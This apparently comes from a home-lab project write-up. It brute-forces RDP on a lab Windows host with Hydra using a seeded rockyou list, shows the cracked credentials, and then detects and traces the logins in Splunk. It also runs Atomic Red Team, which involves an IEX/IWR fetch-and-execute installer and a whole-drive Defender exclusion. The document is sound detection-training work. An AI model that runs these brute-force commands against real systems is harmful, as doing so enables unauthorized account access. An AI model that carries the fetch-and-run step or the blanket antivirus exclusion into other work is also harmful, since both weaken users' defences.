# Phase 4 — Attack & Detection

**Goal:** use Kali Linux to brute-force RDP against the target, view the activity
in Splunk, then run Atomic Red Team to generate telemetry and validate
detections.

Keep the target PC and Windows Server running throughout.

## Prepare the Kali attacker

Set a static IP on Kali:
- **Edit connections → Wired connection 1 → IPv4 → Manual**
  - Address `192.168.10.250`, netmask `24`, gateway `192.168.10.1`, DNS `8.8.8.8`
- Toggle the connection off/on if the IP doesn't refresh, then verify with `ip a`,
  `ping google.com`, and `ping 192.168.10.10`.

Update and upgrade repositories:
```bash
sudo apt-get update && sudo apt-get upgrade -y
```


## Build a password list

Install crowbar (an alternate RDP-capable brute-force tool):
```bash
sudo apt-get install -y crowbar
```


Unzip the rockyou wordlist:
```bash
cd /usr/share/wordlists
sudo gunzip rockyou.txt.gz
ls
```


Then build a small list (seeded with the real password so the demo cracks):
```bash
mkdir -p ~/Desktop/ad-project
cp rockyou.txt ~/Desktop/ad-project/
cd ~/Desktop/ad-project
head -n 20 rockyou.txt > passwords.txt
nano passwords.txt   # add the target user's password
```

## Enable RDP on the target

On the target PC: **Properties → Advanced system settings → Remote →
Allow remote connections**, then **Select Users → Add** both `jsmith` and
`tsmith`.

## Run the brute force (Kali)

Crowbar was tried first and is shown here for reference:
```bash
crowbar -h
```


Crowbar proved unreliable for this target, so the attack was run with
**Hydra** instead:
```bash
sudo apt-get install -y freerdp3-x11
sudo apt-get install -y hydra
hydra -l tsmith -P passwords.txt -t 1 rdp://192.168.10.100
```

The attack succeeded — Hydra found the valid password on its first pass
through the 21-entry list:



```
[3389][rdp] host: 192.168.10.100   login: tsmith   password: P@ssw0rd1!
1 of 1 target successfully completed, 1 valid password found
```

## Detect the attack in Splunk

Head to `192.168.10.10:8000` → **Search & Reporting**.

**Event ID 4625** — the failed logon attempts (the brute-force noise). 44
failed attempts were logged before the correct password was found:
```spl
index="endpoint" tsmith EventCode=4625
```


**Event ID 4624** — the successful logon once the password was cracked. Only
3 successful logons appear for `tsmith`:
```spl
index="endpoint" tsmith EventCode=4624
```


Expanding the event confirms it was a **Network** logon type (Logon Type 3 —
i.e. not an interactive/console logon), consistent with a remote attack:



Scrolling further down the same event reveals the attribution — the
**Source Network Address is `192.168.10.250`**, the Kali VM, with the
workstation name `kali` and NTLM authentication:



This is the key piece of evidence: Splunk telemetry alone is enough to trace
the successful login directly back to the attacking machine.

## Adversary emulation with Atomic Red Team

On the target, in an **admin PowerShell**:
```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
```


Add a Microsoft Defender exclusion for the `C:` drive first (Defender will
otherwise remove Atomic Red Team's test files): **Windows Security → Virus &
threat protection → Manage settings → Exclusions → Add → Folder → C:\**.

Then fetch the atomic test library:
```powershell
Install-AtomicRedTeam -getAtomics
```


Atomics live under `C:\AtomicRedTeam\atomics`, organized by technique ID that
map to the MITRE ATT&CK framework (`attack.mitre.org`).

Run the local-account-creation test (T1136.001):
```powershell
Invoke-AtomicTest T1136.001
```


Several sub-tests run in sequence — a PowerShell-based user creation
succeeds (`T1136.001_PowerShell`), and a `.NET`-based sub-test fails only
because it needs live internet access to `raw.githubusercontent.com`. Both
are expected outcomes and don't affect the telemetry generated.

Confirm the new-user telemetry appears in Splunk (it can take a minute):
```spl
index="endpoint" NewLocalUser
```

## Detecting PowerShell execution (T1059.001)

Run a second technique — PowerShell command execution:
```powershell
Invoke-AtomicTest T1059.001
```

Search Splunk for the resulting Sysmon telemetry:
```spl
index="endpoint" powershell
```
894 matching events appear, including Sysmon process-creation logs from
**ADDC01** showing `PowerShell` loaded and hashed via
`Microsoft-Windows-Sysmon/Operational`:



## Result

The full loop is complete: an attack was launched, its telemetry was
captured by Sysmon + the Universal Forwarder, and it was detected and
investigated in Splunk — down to the attacker's IP address — then mapped
back to MITRE ATT&CK via Atomic Red Team emulation across two hosts.

---
⬅️ Back to [README](../README.md)
